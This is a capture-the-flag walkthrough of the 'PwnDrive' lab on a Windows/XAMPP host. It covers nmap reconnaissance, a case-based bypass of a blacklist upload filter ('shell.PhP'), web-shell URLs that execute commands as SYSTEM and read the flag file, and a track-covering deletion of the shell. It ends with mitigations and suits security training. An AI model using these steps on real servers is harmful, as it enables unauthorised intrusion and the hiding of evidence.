# 🛡️ PwnDrive – Full System Compromise Walkthrough

**Target:** 10.150.150.11  
**Environment:** Windows / Apache (XAMPP)  
**Objective:** Achieve Remote Code Execution (RCE), escalate privileges to SYSTEM, and retrieve `FLAG1.txt`.

---

## 1. 🔎 Phase 1: Reconnaissance & Network Mapping

The assessment began by establishing connectivity to the lab environment and identifying the target host.

### VPN Connection
A secure connection to the lab network was established via OpenVPN.

  


### Host Discovery
An initial scan was conducted to identify active hosts within the network.

```bash
nmap -sn 10.150.150.0/24
```

The target machine was identified at:
```
10.150.150.11
```


### Service Enumeration
A more detailed scan was performed to identify open ports and running services:

```bash
nmap -sC -sV 10.150.150.11
```

**Findings:**
- Port 80 (HTTP) – Apache Web Server
- Port 443 (HTTPS) – Secure Web Service



---

## 2. 🔍 Phase 2: Vulnerability Analysis

Upon accessing the web service, a file upload platform named **PwnDrive** was identified.

### Web Application Access
The web portal was confirmed to be accessible via a browser.



### Authentication Mechanism
An administrative login page was discovered, which provided access to the upload functionality.



### Exploit Research
To identify known vulnerabilities, `searchsploit` was used:

```bash
searchsploit pwndrive
```



No publicly available exploits were found, indicating the need for manual testing.

---

## 3. 💥 Phase 3: Exploitation (File Upload Bypass)

During testing, the file upload functionality was found to implement a **blacklist-based filter**, blocking `.php` files.

### Vulnerability
The filter failed to properly validate file extensions in a case-insensitive manner.

### Exploitation Technique
A web shell was uploaded using a mixed-case extension:

```
shell.PhP
```



### Remote Code Execution
The server accepted the file and executed it as PHP code.

To verify command execution:

```
http://10.150.150.11/upload/2/shell.PhP?cmd=whoami
```



### Result
```
nt authority\system
```

This indicates a **critical misconfiguration**, as the web server is running with SYSTEM-level privileges.

---

## 4. 🔑 Phase 4: Post-Exploitation & Flag Retrieval

With SYSTEM-level access obtained, local enumeration was performed to locate sensitive files.

### Directory Enumeration
The Administrator's Desktop directory was explored:



### Flag Identification
The target file `FLAG1.txt` was located:



### Flag Extraction
```
http://10.150.150.11/upload/2/shell.PhP?cmd=type C:\Users\Administrator\Desktop\FLAG1.txt
```



### Captured Flag
```
PwnTillDawnAcademyIsAwesome!!!
```

---

## 5. 🧹 Phase 5: Cleanup (Covering Tracks)

To reduce the forensic footprint, the uploaded web shell was removed from the server.

### Cleanup Command
```
del C:\xampp\htdocs\upload\2\shell.PhP
```



### Verification
A **403 Forbidden** response confirmed that the file was successfully removed:



---

## 🧠 Lessons Learned

- Blacklist-based file filtering is insecure and easily bypassed  
- File upload functionalities must enforce strict validation and sanitization  
- Running web services with SYSTEM privileges introduces severe risk  
- Proper privilege separation is critical in secure system design  

---

## 🔐 Mitigation Recommendations

- Implement **whitelist-based file validation**  
- Enforce **case-insensitive filtering**  
- Disable execution permissions in upload directories  
- Run services with **least privilege accounts**  
- Regularly audit and harden configurations  

---

## 🏁 Conclusion

This lab demonstrates how a weak file upload mechanism combined with improper privilege configuration can lead to **full system compromise**. By exploiting a simple validation flaw, it was possible to achieve RCE and directly obtain SYSTEM-level access.

---

## ⚠️ Disclaimer
This project was conducted in a controlled lab environment for educational purposes only.
